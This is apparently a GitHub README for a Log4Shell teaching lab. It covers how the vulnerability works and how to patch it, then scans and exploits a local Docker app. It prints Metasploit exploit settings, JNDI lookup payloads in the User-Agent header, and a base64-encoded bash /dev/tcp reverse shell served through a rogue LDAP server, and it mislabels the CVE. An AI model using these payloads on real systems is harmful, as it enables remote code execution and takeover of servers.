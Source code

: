 
# Log4Shell lab

The _Log4Shell exploit_ (CVE-2021-44832) targets a vulnerability in the Apache Log4j logging library, allowing remote code execution by manipulating log messages. Specifically, the exploit involves the use of a malicious LDAP server to inject arbitrary code into a vulnerable Java application via JNDI lookups.

Log4j uses Java Naming and Directory Interface (JNDI) to enable dynamic logging configuration based on resources located through naming and directory services. It allows log messages to include lookup patterns that can retrieve data from various sources, such as LDAP or DNS.

When a user input or a specific HTTP header (like `User-Agent`) that contains a JNDI lookup string is logged by the vulnerable application, the Log4j library processes this string and performs a lookup to the specified LDAP server. In this exploit, the attacker's LDAP server responds with a payload that leads to the execution of arbitrary code on the application server.

The payload is a Java gadget chain that leverages a Java deserialisation vulnerability. The gadget chain involves invoking methods on serialised objects that execute arbitrary code upon deserialisation, leveraging existing classes in the application's classpath to bypass security checks and gain remote code execution. For more information on choosing which gadget to use to effectively gain code execution on the victim, see [here](https://www.veracode.com/blog/research/exploiting-jndi-injections-java).

![](img/log4shell_attack.png)

## Vulnerability fix

The vulnerability is addressed in `log4j-core` version 2.16.0 and later. As reported by [NIST](https://nvd.nist.gov/vuln/detail/CVE-2021-44228), Apache Log4j2 2.0-beta9 through 2.15.0 (excluding security releases) are vulnerable. Avoid using any of these versions explicitly, or as a _transitive dependency from other packages_.

For applications that cannot be immediately updated, modify the Log4j configuration to disable JNDI lookups. This can be achieved by setting the system property `log4j2.formatMsgNoLookups` to `true` or by removing the JNDI lookup class from the classpath.

The vulnerability is independent of Java versions, so any Java runtime that uses a vulnerable Log4j can be exploited.

## Lab

Package the vulnerable application with Gradle.

```bash
tom@MacBook:~/log4shell-lab/vulnerable-app# ./gradlew bootJar
```

Run it in a Docker container.

```bash
tom@MacBook:~/log4shell-lab# docker-compose up
```

We can verify that the application is vulnerable to CVE-2021-44832 by including the lookup string `${java:os}` in the login page at `http://localhost:8080`.

![](img/login.png)

The logs show that the lookup string is resolved.

![](img/verify.png)

## Finding the vulnerability

Use the Metasploit module `scanner/http/log4shell_scanner`. The scanner finds the vulnerable `User-Agent` header from the POC application.

```bash
msf6> use auxiliary/scanner/http/log4shell_scanner
msf6 auxiliary(scanner/http/log4shell_scanner) > set RHOSTS localhost
msf6 auxiliary(scanner/http/log4shell_scanner) > set RPORT 8080
msf6 auxiliary(scanner/http/log4shell_scanner) > set SRVHOST 192.168.5.2
msf6 auxiliary(scanner/http/log4shell_scanner) > set SRVPORT 1389
msf6 auxiliary(scanner/http/log4shell_scanner) > run

[+] ::1:8080              - Log4Shell found via / (header: User-Agent) (os: Linux 6.6.12-linuxkit unknown, architecture: aarch64-64) (java: Oracle Corporation_11.0.16)
```

## Automated exploitation with Metasploit

Metasploit has a couple of modules for automated exploitation. For header injection we can use the module `exploit/multi/http/log4shell_header_injection`.

To work on the lab environment, we use the following options. Replace the LHOST and SRVHOST variables with the Docker host IP. The lab environment uses Java 11 so we will use the Java gadget "BeanFactory".

```bash
set HTTP_HEADER User-Agent
set RHOSTS 127.0.0.1
set RPORT 8080
set LHOST 192.168.5.2
set LPORT 443
set SRVHOST 192.168.5.2
set SRVPORT 1389
set target 2
set JAVA_GADGET_CHAIN BeanFactory
```

Run the exploit and we get shell access.

```bash
msf6 exploit(multi/http/log4shell_header_injection) > exploit

[*] Started reverse TCP handler on 192.168.5.2:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Using auxiliary/scanner/http/log4shell_scanner as check
[+] 127.0.0.1:8080        - Log4Shell found via / (header: User-Agent) (os: Linux 6.6.12-linuxkit unknown, architecture: aarch64-64) (java: Oracle Corporation_11.0.16)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Sleeping 30 seconds for any last LDAP connections
[*] Server stopped.
[+] The target is vulnerable.
[*] Command shell session 3 opened (192.168.5.2:4444 -> 192.168.5.5:40058) at 2024-02-17 16:17:43 +0100
[*] Server stopped.

id
uid=0(root) gid=0(root) groups=0(root)
```

## Manual exploit

Prepare a malicious LDAP server for JNDI injection attacks, for example [rogue-jndi](https://github.com/veracode-research/rogue-jndi). The Java version used to build the project does not need to correspond to the version running the vulnerable application.

The malicious LDAP server is configured to receive a specific command sequence. This command is then embedded into the code that is dynamically compiled and executed by the victim's system, effectively allowing the attacker's code to run on the target machine.

```bash
bash -c {echo,$base64EncodedCommand}|{base64,-d}|{bash,-i}
```

The variable `base64EncodedCommand` will contain a bash TCP reverse shell connecting to the host IP 192.168.5.2 at port 443.

```bash
tom@MacBook:~/workspace/security/rogue-jndi# echo 'bash -c bash -i >& /dev/tcp/192.168.5.2/443 0>&1' | base64
YmFzaCAtYyBiYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNS4yLzQ0MyAwPiYxCg==
```

Start the malicious LDAP server with the embedded command.

```bash
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNS4yLzQ0MyAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "192.168.5.2" --httpPort 8888
```

Start a Netcat listener on the attacker.

```bash
nc -lnvp 443
```

Trigger the exploit by using a JNDI lookup string that targets our malicious LDAP server.

```bash
${jndi:ldap://192.168.5.2:1389/o=tomcat}
```

The vulnerable application has two vulnerable parameters. The exploit can be triggered via the username field or via the `User-Agent` header.

```http
GET / HTTP/1.1
Host: localhost:8080
User-Agent: ${jndi:ldap://192.168.5.2:1389/o=tomcat}
```

We get a shell connection into the Docker container.

![](img/revshell.png)

## Ethical consideration and responsible use

This tutorial, including all code and documentation, is provided for educational and research purposes only. It aims to enhance understanding of cybersecurity vulnerabilities, defensive strategies, and the importance of maintaining secure systems. The demonstration of the Log4Shell vulnerability is intended to inform developers, security professionals, and educational institutions about the risks and mitigation techniques related to this and similar vulnerabilities.

## Resources

- https://github.com/pentesterland/Log4Shell
- https://infosecwriteups.com/log4j-zero-day-vulnerability-exploitation-detection-mitigation-9667908857b4
- https://github.com/Cyb3rWard0g/log4jshell-lab
- https://logging.apache.org/log4j/2.x/security.html#CVE-2021-44228
- https://spring.io/blog/2021/12/10/log4j2-vulnerability-and-spring-boot
- [Hack The Box | Unified](https://help.hackthebox.com/en/articles/6007919-introduction-to-starting-point)
